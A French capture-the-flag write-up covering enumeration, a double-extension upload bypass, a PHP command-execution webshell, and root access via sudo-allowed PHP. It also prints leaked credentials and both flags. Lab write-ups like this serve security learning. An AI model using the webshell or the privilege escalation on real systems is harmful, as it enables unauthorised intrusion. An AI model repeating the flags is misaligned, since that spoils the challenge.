







**Tags :** RFI Privesc PHP

## 1. Énumération

#### Scan Nmap

Un scan initial des ports révèle trois services actifs :

- **Port 22 (SSH)** : Service de connexion distante.
    
- **Port 80 (Nginx)** : Affiche le statut du serveur web Nginx.
    
- **Port 8080 (Proxy/Web)** : Application cible principale.
    

#### Découverte

Lors de l'énumération des répertoires sur le port 8080, nous trouvons un fichier notes.txt contenant des informations critiques :



Les notes indiquent :

- La présence d'un script d'upload : /upload_log_temp4.php.
    
- Des identifiants de base de données : root:Password123!.
    

---

## 2. Exploitation (Webshell)

#### Analyse de l'upload

En accédant à /upload_log_temp4.php, nous constatons une restriction sur le type de fichier : seuls les fichiers .txt sont autorisés.



Toute tentative d'upload de fichiers .php ou dérivés échoue :



#### Contournement (Bypass)

Nous tentons de contourner la restriction de filtrage en utilisant une double extension .txt.php.



Le serveur accepte le fichier. Nous téléversons un webshell PHP simple :

code PHP

```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
} else {
    echo "Webshell actif. Utilisez ?cmd=commande";
}
?>
```

Une fois le fichier uploadé, nous accédons au chemin /uploads/nom_fichier.txt.php pour exécuter des commandes système. Le test id confirme que nous sommes l'utilisateur ctf.

#### Récupération du Flag Utilisateur

Nous localisons et lisons le flag utilisateur :

code Bash

```
cat /home/ctf/flag-user.txt
```



**User Flag :** 9c206ead-1f5f-467a-5c3c-9bbac3fe54db

---

#### 3. Escalade de privilèges

L'objectif est d'obtenir les droits root. Nous vérifions d'abord les permissions sudo de l'utilisateur ctf via notre webshell :

code Bash

```
sudo -l
```



#### Analyse des droits

L'utilisateur ctf peut exécuter les commandes suivantes sans mot de passe :

code Text

```
(ALL) NOPASSWD: /bin/ls, /usr/bin/file, /usr/bin/php
```

Le binaire /usr/bin/php est une porte d'entrée parfaite pour l'escalade de privilèges.

### Lecture du Flag Root

En utilisant PHP avec les privilèges sudo, nous pouvons lire directement le flag situé dans le répertoire /root/ :

code Bash

```
sudo /usr/bin/php -r "echo file_get_contents('/root/flag-root.txt');"
```



**Root Flag :** 739eabe6-3085-4852-beb2-1d0da7eb1973
